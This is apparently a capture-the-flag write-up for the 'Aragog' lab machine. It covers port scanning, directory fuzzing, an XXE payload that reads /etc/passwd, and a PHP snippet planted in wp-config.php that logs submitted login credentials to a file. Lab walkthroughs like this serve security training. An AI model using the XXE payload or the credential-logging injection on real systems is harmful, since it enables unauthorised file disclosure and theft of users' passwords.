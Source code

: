 # Aragog Writeup


## Enumeration

#### Port Scanning

```
Nmap scan report for 10.129.220.248
Host is up (0.13s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works

```

#### Directory Fuzzing

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.220.248/
[+] Method:                  GET
[+] Threads:                 15
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,aspx,sh,php,html
[+] Timeout:                 10s
===============================================================
2021/11/23 06:12:48 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/hosts.php            (Status: 200) [Size: 46]   
```

## Initial Access
Navigating to the [hosts.php](http://10.129.220.248/hosts.php), the page dumps a host count. 

Going back to FTP, we can log in as Anonymous, and we see a _test.txt_ file that contains what seems like an XML payload that would be sent to the _hosts.php_ endpoint via a POST request. 

Testing this, we're right. I used [this cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md) to create this payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE details [
<!ELEMENT subnet_mask ANY >
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<details>
<subnet_mask>&file;</subnet_mask>
<test></test>
</details>
```

This succeeds by dumping the contents of /etc/passwd, where I found 2 users, **cliff** and **florian**. 


## Privelege Escalation

Saw that there was a process called `whoopsie` running constantly that simulated an administrator loggin into Wordpress. Added these lines to _wp-config.php_ to output the credentials entered into the form. 


```
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/df", "a");
fwrite($fff, $rrr);
fclose($fff);
```
Got root password and flag.
